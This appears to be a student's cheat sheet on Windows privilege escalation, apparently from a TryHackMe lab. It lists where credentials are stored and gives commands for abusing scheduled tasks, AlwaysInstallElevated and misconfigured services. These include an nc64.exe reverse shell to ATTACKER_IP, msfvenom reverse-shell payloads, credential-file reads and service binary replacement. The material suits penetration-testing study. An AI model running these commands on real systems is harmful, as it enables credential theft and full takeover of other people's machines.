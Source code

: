 # Windows
tip: use remmina for RDP
## Harvesting passwords from usual spots

Here can be passwords stored
<pre>
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
</pre>

### Powershell history
It can be stored in powershell history

use cmd.exe to execute this command
<pre>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</pre>

if you want to use powershell change `%userprofile%` to `$Env:userprofile` <br>

### Saved Windows Credentials
Here can be saved credentials, we can't see the password but we can use it to run cmd with user's privilage
<pre>
cmdkey /list

runas /savecred /user:admin cmd.exe</pre>

### IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:<br>

<pre>

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    type C:\inetpub\wwwroot\web.config | findstr connectionString
</pre>

### PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

![putty](img/putty.png)

## quick escalation

### Scheduled Tasks

Run `schtasks` for list of sheduled tasks <br>
For details about task run `schtasks /query /tn TASK-NAME /fo list /v`<br>

To check if we the permissions we can rut `icacls FILE`<br>

if you can locate nc64.exe file you can get reverse shell
<pre>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TASK

nc -lvp 4444
</pre>

Than run that task manualy

`schtasks /run /tn TASK`

### AlwaysInstallElevated

These two registry needs to be set 
<pre>
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
</pre>

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

than run on target system 

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Service Misconfigurations
get info<br>
`sc qc <service>`

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

Use `icacls` to see permissions

![cmd](img/win-cmd1.png)
We can see (M) permission. That means we can modify the file.

`SERVICE_START_NAME` is the account used to run the service.

#### On attacker's machine
We can create a rev shell, start a python server and start listening.
<pre>
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server

nc -lvp 4445
</pre>

#### On windows machine
Use wget in powershell
<pre>
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

cd C:\PROGRA~2\SYSTEM~1\

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F

sc stop windowsscheduler

sc start windowsscheduler
</pre>

## Unquoted Service Paths

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

example `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

Check if you have permisions in that folder, ussualy `C:\Program Files` and `C:\Program Files (x86)` are't writabble by unprivileged user.
<pre>icacls c:\MyPrograms</pre>

You can again create a file and start a reverse shell as above.

## Insecure Service Permissions

To check for a service DACL from the command line, you can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.

<pre>accesschk64.exe -qlc thmservice</pre>
![img](img/win-cmd2.png)

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Create rev shell `rev-svc3.exe`
<pre>
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

sc stop THMService

sc start THMService

</pre>


